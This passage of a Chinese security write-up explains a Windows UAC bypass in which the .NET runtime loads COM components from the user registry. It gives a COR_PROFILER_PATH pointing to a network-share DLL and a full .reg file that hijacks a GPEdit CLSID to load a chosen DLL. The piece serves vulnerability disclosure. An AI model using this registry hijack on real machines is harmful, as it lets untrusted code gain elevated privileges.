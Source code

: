PoC代码已在x64版的Windows 7、8.1、10 1703以及10 RS3 build 16275上测试通过。

当然，如果你使用的是SMB共享形式的UNC路径，PoC代码也能正常工作：

```
COR_PROFILER_PATH=\serversharetest.dll
```



**四、根本原因**

****

虽然在特权进程中运行时，COM运行时会禁止在**用户注册表（HKCU）**中搜索CLSID键值，以避免UAC被绕过，然而.NET运行时却没有这么做，并且在本文演示的场景中，查找过程由后者发起，负责组件的查找工作：

[![](https://p2.ssl.qhimg.com/t012555487dc89f12ab.png)](https://p2.ssl.qhimg.com/t012555487dc89f12ab.png)

为了修复这个问题，CLR应该使用与COM类似的检查过程。

<br>

**五、其他可用实例**

****

既然我们已理清CLR的工作过程，我们可以观察栈中的CLR调用，检查HKCU中具体搜索的CLSID，找到其他可用实例。GPEdit中存在另一个可用的实例，也就是“**Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager**”组件（在我测试用的虚拟机上为CLSID `{`B29D466A-857D-35BA-8712-A758861BFEA1`}`）：

[![](https://p1.ssl.qhimg.com/t014c9d52b9ba8d8d34.png)](https://p1.ssl.qhimg.com/t014c9d52b9ba8d8d34.png)

观察HKCR中已有的键值，我们发现该组件本身似乎就是使用CLR程序集（assembly）来实现：

[![](https://p2.ssl.qhimg.com/t01131e040c801cd81e.png)](https://p2.ssl.qhimg.com/t01131e040c801cd81e.png)

我们可以使用如下方式在用户注册表中定义一则COM表项（保存为.reg文件）：



```
Windows Registry Editor Version 5.00
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`] @="Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`Implemented Categories]
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`Implemented Categories`{`62C8FE65-4EBB-45E7-B440-6E39B2CDBF29`}`]
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`InprocServer32] @="C:WindowsSystem32mscoree.dll" "Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral" "Class"="TestDotNet.Class1" "RuntimeVersion"="v4.0.30319" "ThreadingModel"="Both" "CodeBase"="file://C://Temp//test_managed.dll"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`InprocServer3210.0.0.0] "Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral" "Class"="TestDotNet.Class1" "RuntimeVersion"="v4.0.30319" "CodeBase"="file://C://Temp//test_managed.dll"
[HKEYCURRENTUSERSoftwareClassesCLSID`{`B29D466A-857D-35BA-8712-A758861BFEA1`}`ProgId] @="Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager"
```
